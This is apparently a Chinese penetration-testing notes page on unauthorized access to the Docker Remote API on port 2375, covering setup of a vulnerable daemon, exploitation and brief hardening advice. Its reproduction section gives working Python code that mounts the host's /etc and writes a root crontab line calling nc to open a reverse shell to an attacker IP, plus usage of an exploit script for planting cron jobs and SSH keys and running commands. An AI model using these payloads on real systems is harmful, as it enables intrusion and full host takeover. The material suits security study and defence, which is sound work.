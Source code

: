 ```yaml
---
title: Docker 未授权访问
id: zhfly2889
---
```


# Docker 未授权访问

## 一、漏洞简介

#### 1\. 基础介绍

http://www.loner.fm/drops/##!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

docker swarm 是一个将docker集群变成单一虚拟的docker host工具，使用标准的Docker API，能够方便docker集群的管理和扩展，由docker官方提供，具体的大家可以看官网介绍。

漏洞发现的起因是，有一位同学在使用docker swarm的时候，发现了管理的docker 节点上会开放一个TCP端口2375，绑定在0.0.0.0上，http访问会返回 404 page not found ，然后他研究了下，发现这是 Docker Remote API，可以执行docker命令，比如访问 http://host:2375/containers/json 会返回服务器当前运行的 container列表，和在docker CLI上执行 docker ps 的效果一样，其他操作比如创建/删除container，拉取image等操作也都可以通过API调用完成，然后他就开始吐槽了，这尼玛太不安全了。

然后我想了想 swarm是用来管理docker集群的，应该放在内网才对。问了之后发现，他是在公网上的几台机器上安装swarm的，并且2375端口的访问策略是开放的，所以可以直接访问。

#### 2\. 测试环境配置

先关闭docker，然后开启：

```
sudo service docker stop
# 绑定Docker Remote Api在指定端口（这里是2375），可以自行测试。
sudo docker daemon  -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock 
```

参考API规范进行渗透：https://docs.docker.com/engine/reference/api/docker-remote-api-v1.23/

操作Docker API可以使用python dockert api 完成。

pip install docker-py

API使用参考：https://docker-py.readthedocs.io/en/stable/api/##client-api

## 二、影响范围

## 三、复现过程

利用方法是，我们随意启动一个容器，并将宿主机的/etc目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

```
import docker `client = docker.DockerClient(base_url=‘[http://your-ip:2375/](http://your-ip:2375/)’)

data = client.containers.run(‘alpine:latest’, r’’‘sh -c “echo ‘* * * * * /usr/bin/nc your-ip 21 -e /bin/sh’ >> /tmp/etc/crontabs/root” ‘’’, remove=True, volumes={’/etc’: {‘bind’: ‘/tmp/etc’, ‘mode’: ‘rw’}})` 
```

写入crontab文件，成功反弹shell：

![image](../img/57c87bf8b1cad02b3b4317b9bb2622e5.png)

#### python脚本

https://github.com/ianxtianxt/docker_api_vul

*   安装类库
    `pip install -r requirements.txt`
*   查看运行的容器
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375`
*   查看所有的容器
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -a`
*   查看所有镜像
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -l`
*   查看端口映射
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -L`
*   写计划任务（centos,redhat等,加-u参数用于ubuntu等）
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口`
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -u -i 镜像名 -H 反弹ip -P 反弹端口`
*   写sshkey(自行修改脚本的中公钥)
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -k`
*   在容器中执行命令
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -e "id" -I 容器id`
*   删除容器
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -c -I 容器id`
*   修改client api版本
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -v 1.22`
*   查看服务端api版本
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -V`

#### 3.3 其他的一些exp

https://github.com/netxfly/docker-remote-api-exp
https://github.com/zer0yu/SomePoC/blob/master/Docker/Docker_Remote_API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E.py
https://github.com/JnuSimba/MiscSecNotes/tree/master/Docker%E5%AE%89%E5%85%A8

#### 4\. 防护策略

*   1.修改 Docker Remote API 服务默认参数。注意：该操作需要重启 Docker 服务才能生效。

*   2.修改 Docker 的启动参数：
    定位到 DOCKER_OPTS 中的 tcp://0.0.0.0:2375，将0.0.0.0修改为127.0.0.1
    或将默认端口 2375 改为自定义端口
    为 Remote API 设置认证措施。参照 官方文档 配置 Rem

*   3.注意：该操作需要重启 Docker 服务才能生效。
    修改 Docker 服务运行账号。请以较低权限账号运行 Docker 服务；另外，可以限制攻击者执行高危命令。

*   4.注意：该操作需要重启 Docker 服务才能生效。
    设置防火墙策略。如果正常业务中 API 服务需要被其他服务器来访问，可以配置安全组策略或 iptables 策略，仅允许指定的 IP 来访问 Docker 接口。